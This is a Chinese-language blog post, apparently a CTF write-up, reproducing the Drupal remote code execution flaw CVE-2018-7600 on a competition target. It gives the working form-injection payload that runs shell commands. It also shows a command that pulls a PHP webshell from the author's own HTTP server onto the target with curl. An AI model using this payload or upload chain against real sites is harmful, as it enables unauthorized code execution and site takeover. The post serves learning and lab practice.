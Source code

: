 ```yaml
---
layout:     post
title:      记之前的一次校赛题
date:       2018-12-14
author:     Wh0ale
header-img: img/wallhaven-716968.png
catalog: true
tags:
    - CVE
    - drupal
---
```


无聊翻起了以前的CSDN博客，发现之前做校赛题遇到的CVE-2018-7600挺有意思的，也是从那次校赛后就不怎么打CTF了，最近要重新变成赛棍，把文章贴上，记录一下。

前几天做题遇到drupal cms的时候始终没想到如何拿下这个站点，后来经过百度以及表哥给的wp知道还有CVE-2018-7600这个漏洞

这篇文章主要记录下该漏洞的复现过程

 ![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xhdcobfj20pj0c4q3v.jpg)

靶场如上,我看到这个网站当时是懵逼的，我以为会出dz，dede，thinkphp那些常见网站模版，没想一下跳出个drupal。这时候的心情是懵逼的，果然无知限制了我的想象。

然后

我扫目录无果

找注入无果

爆路径无果

....于是放弃了

然后第二天看了wp才发现原来那么简单

网上就有现成的exp（我传到了资源了）

payload:

```
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}
```



模拟登陆框：

`echo ";-)" | tee hello.txt`	的意思是：输入;-)到hello.txt

tee的意思是存在缓存机制，每1024个字节将输出一次。若从管道接收输入数据，应该是缓冲区满，才将数据转存到指定的文件中。若文件内容不到1024个字节，则接收完从标准输入设备读入的数据后，将刷新一次缓冲区，并转存数据到指定文件。

同理这里可以输入一句话到hello.txt中

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xh0pq4nj20ae0b4glt.jpg)



![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xho1aanj20s903v3yv.jpg)

这里我们传一句话的时候会被过滤，所以我们只能以curl形式上传

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xhttumrj20xg03w3z3.jpg)



![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xi1gauej20rz02pjrm.jpg)





全都成功上传了，但是菜刀链接不上

这里需要注意的是exp用python3写的，在python2.7无法执行，换到kali即刻成功执行

![img](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xjjyvzbj20n80eqmxg.jpg)



通过python开端口

```python
python -m SimpleHTTPServer 8000
```



![img](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xjjyb94j20lj081t8s.jpg)



curl上传：`'curl http://192.168.211.131/dama1.php | tee haha1.php'`(这里我上传的dama2输入密码无法解析，有时候大马在本地也搭建成功但不一定有效，多尝试)

![img](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz9xjk0zmij20xi0fbq5o.jpg)



另一种方法拿flag是

`'../../../../../etc/ | tee 2.txt' `   可以看到网站目录有啥 即可拿到flag

复现到此结束，欢迎大家加我学习

参考：

[Drupal核心远程代码执行漏洞分析报告](https://cert.360.cn/report/detail?id=c92cfff2634a44c8b1d6bd5e64c07f3d)

[漏洞分析 Drupal远程代码执行漏洞(CVE-2018-7600)分析](http://blog.nsfocus.net/cve-2018-7600-analysis/)

[云鼎实验室：Drupal CVE-2018-7600 分析及 PoC 构造](https://paper.seebug.org/567/)

[exp](https://github.com/a2u/CVE-2018-7600)

